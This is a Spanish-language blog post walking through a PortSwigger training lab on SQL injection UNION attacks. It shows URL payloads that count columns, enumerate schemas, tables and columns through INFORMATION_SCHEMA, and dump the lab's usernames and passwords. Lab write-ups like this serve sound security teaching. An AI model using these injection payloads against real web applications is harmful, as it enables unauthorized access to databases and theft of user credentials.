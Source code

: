 ```yaml
---
title: SQL Injection UNION Attack.
date: '2023-03-29'
tags: ['HACKING', 'SQL', 'SQL INJECTION']
draft: false
summary: El fin de este ataque es aprovechar algún elemento de la página web que esté renderizando información que llega directamente de la BD para extraer información. Si la aplicación es vulnerable a SQL Injection (SQLi) y somos capaces de determinar cuantas columnas está devolviendo la consulta SQL original podremos utilizar la palabra reservada *UNION* de SQL para concatenar en la salida de la consulta información extra de otras tablas de la base de datos.
images: ['/static/images/sqli-union-attack/twitter-card.png']
---
```


El fin de este ataque es aprovechar algún elemento de la página web que esté renderizando información que llega directamente de la BD para extraer información. Si la aplicación es vulnerable a SQL Injection (SQLi) y somos capaces de determinar cuantas columnas está devolviendo la consulta SQL original podremos utilizar la palabra reservada _UNION_ de SQL para concatenar en la salida de la consulta información extra de otras tablas de la base de datos.

Doy por hecho que el lector tiene conocimientos sobre lo que es un SQLi, conocimientos básicos de como funciona el ataque y conocimientos básicos de SQL.

Las siguientes explicaciones se basarán en la idea de que tenemos una aplicación web la cual recibe como un parámetro en la url un valor que se utiliza para filtrar en una consulta SQL. Para hacer el post mas visual usaremos los laboratorios de [https://portswigger.net/](https://portswigger.net/) en concreto el laboratorio \***\*Lab: SQL injection attack, listing the database contents on non-Oracle databases.\*\***

Importante recalcar que el laboratorio es una BD non-Oracle, para Oracle las consultas cambiarían un poco ya que siempre se necesita que se especifique una tabla en la consulta. Para ello se usa la tabla _Dual_ (`[sqli] from Dual — -`)

Este laboratorio es una aplicación web que recibe como parámetro una categoría que se usa para filtrar los resultados de la página.

![Query param](/static/images/sqli-union-attack/1.png)

Los resultados que se ven en la parte de abajo de la imagen son el resultado de la consulta SQL, probablemente la consulta que se esté haciendo sea algo similar a la siguiente:

```sql
SELECT title, body
FROM Table
WHERE category LIKE ‘Pets’
```

El campo _title_ de la consulta sería _Fur Babies_ y el _body_ el resto del texto que aparece debajo del titulo.

## Enumerar la cantidad de columnas de la consulta original.

Lo primero que debemos hacer, después de comprobar que la aplicación es vulnerable a SQLi, es enumerar el número de columnas de la consulta original. Esto es necesario para poder concatenarle al resultado de la consulta aquellos datos que nosotros como atacantes quisiéramos extraer de la BD.

Para ello lo más sencillo es intentar ordenar el resultado por el número de columnas:

`/filter?category=Pets' ORDER BY 2 -- -`

Mientras usemos un número de columna válido la web seguirá funcionando, en el momento en el que pongamos un número de columna que no exista la aplicación se romperá. Por ejemplo, si usamos `3` en lugar de `2` la aplicación muestra un mensaje de error. Eso nos da la información de que en la consulta original existen dos columnas.

## Identificar qué campos son válidos para extraer datos

Gracias a la enumeración de columnas sabemos que existen dos columnas en la consulta por lo que podríamos empezar a concatenar información en la consulta sin obtener error por parte de la aplicación:

`/filter?category=Pets' UNION SELECT NULL, NULL -- -`

Los valores nulos representan las columnas que podemos usar para extraer información de la BD, como por ejemplo la versión de la BD:

`/filter?category=Pets' UNION SELECT version(), NULL -- -`

En medio del texto de la web podremos ver el siguiente texto:

**PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit**

¡La versión de la BD que está corriendo por detrás de la web!

Nótese que estamos usando `version()` porque es un PostgreSQL, deberemos adaptar nuestras consultas SQL según el motor de BD que corra por detrás de la web. PortSwigger tiene una cheatsheet bastante buena para las diferencias más comunes entre motores de BD [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

En el ejemplo anterior hemos podido extraer la versión de la BD sin problemas pero debemos saber que **no todos los campos de la consulta pueden ser validos para extraer texto**, si la columna es un tipo de dato numérico (int) no podremos usarlo para extraer texto. La forma más sencilla de identificar que campos podemos usar para extraer información es la siguiente:

`/filter?category=Pets' UNION SELECT 'A', NULL -- -`

`/filter?category=Pets' UNION SELECT NULL, 'A' -- -`

En caso de que por ejemplo, la segunda columna sea de tipo numérico la aplicación se romperá al ejecutar la consulta.

En caso de que solo una de los campos nos permita extraer texto y queramos extraer información de más de una columna podemos jugar con la función `concat()` para mostrar N columnas sobre un mismo campo:

` /filter?category=Pets' UNION SELECT concat(version(), ':',``current_database()), NULL -- - `

En la consulta anterior nos aparecería la versión de la BD junto con el nombre de la base de datos actual separado por el delimitador “:”. No todos los motores de BD tienen el método `concat()` pero todos ellos nos permite extrapolar cadenas de una forma u otra. La cheatsheet que nombre anteriormente tiene también diferentes formas de concatenar datos en función del motor de BD.

## Enumerar bases de datos, tablas y columnas

La información más relevante de la BD se encuentra dentro de las tablas. Para poder montar las consultas que nos extraigan los datos debemos conocer la estructura interna de la BD, nombres de las BBDD, nombres de tablas y nombres de columnas. Para ello, podemos usar la tabla `INFORMATION_SCHEMA` para, de forma progresiva, extraer todo.

Para enumerar las bases de datos del servidor:

`/filter?category=Accessories' UNION SELECT schema_name, NULL FROM INFORMATION_SCHEMA.SCHEMATA -- -`

En la anterior inyección SQL estamos usando la tabla `INFORMATION_SCHEMA` para enumerar las bases de datos que están en el servidor.

`INFORMATION_SCHEMA` es la base de datos donde se guarda la información sobre todas las demás bases de datos, por ejemplo; nombres de las bases de datos o una tabla, su tipo de columna, privilegios de acceso, etc. Se trata de una base de datos virtual integrada con el único propósito de proporcionar información sobre el propio sistema de base de datos.

Al ejecutar la inyección podemos visualizar en el contenido de la web los nombres de las bases de datos (pg_catalog, public y information_schema):

![Enumeracion de bases de datos](/static/images/sqli-union-attack/2.png)

Una vez conocemos la BD es hora de conocer las tablas que contiene, una vez más usando la tabla `INFORMATION_SCHEMA` extraemos la información:

`/filter?category=Accessories/filter?category=Accessories' UNION SELECT table_name, NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_schema LIKE 'public' -- -`

![Enumeracion de tablas](/static/images/sqli-union-attack/3.png)

Vemos que la BD _public_ contiene dos tablas, _products_ y _users_dcpwdo._ Como el fin del laboratorio es extraer las credenciales del usuario administrador vamos a por la tabla de usuarios. Lo único que nos falta por saber para poder extraer la información de esta tabla son las columnas que contiene.

`/filter?category=Accessories' UNION SELECT column_name, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name LIKE 'users_dcpwdo' -- -`

![Enumeracion de columnas](/static/images/sqli-union-attack/4.png)

Enumeramos dos columnas en la tabla: _password_gwmnts_ y _username_jxwprc._ Con esta información solo queda hacer una consulta normal a la tabla y extraer la información.

`/filter?category=Accessories' UNION SELECT username_jxwprc, password_gwmnts FROM users_dcpwdo -- -`

No saqué captura del resultado de la última inyección pero el resultado que se ve por pantalla son los usuarios que contiene la tabla de usuarios, entre ellos el usuario administrador.

Cabe destacar que es posible que no todas los campos de la consulta sean compatibles para extraer texto, como comentamos anteriormente en la enumeración de columnas. En ese caso podemos jugar con la función `concat()` para que en un mismo campo nos muestre información de N columnas.

`/filter?category=Accessories' UNION SELECT concat(username_jxwprc, ':', password_gwmnts), NULL FROM users_dcpwdo -- -`

El resultado de la consulta sería algo parecido a esto:

`wiener:g4l778876wfucwa6q82g`

`administrator:dau3lmcllq0h9oh314kn`

Pues solo nos queda hacer login y resolver el laboratorio.

![Lab solved](/static/images/sqli-union-attack/5.png)

Gracias por leer.
